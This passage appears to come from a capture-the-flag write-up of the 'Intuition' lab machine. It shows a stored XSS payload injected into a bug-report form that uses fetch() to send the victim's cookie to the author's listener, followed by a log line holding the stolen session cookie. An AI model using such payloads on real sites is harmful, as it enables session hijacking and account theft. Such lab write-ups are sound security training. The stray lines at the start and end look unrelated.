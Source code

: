Next, I registered with the ID `z3r0da:password` and a simple password. After logging in, I clicked on "Report a Bug" again, and it led me to a "Report Submission Form" page

![img](/assets/img/Intuition/6.webp)

My immediately through of XSS - can you grep a cookie. I thought, Could we inject code into this report submission form and grab a cookie?
## XSS - Cookie

I created a simple XSS payload

```bash
<img src=# onerror="fetch('http://10.10.14.8:8000/?cookie='+document.cookie);" />
```

This payload send the cookie to my local server running on port 8000

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.15 - - [29/Jun/2024 16:43:24] "GET /?cookie=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 200 -
```

After replacing the cookie, I navigated to `http://dashboard.comprezzor.htb/`
### Dashboard - webdev

The `webdev` dashboard wasn't particularly thrilling


[WARNING]: - root.tar.gz was NOT installed successfully: Unknown error when attempting to call Galaxy at
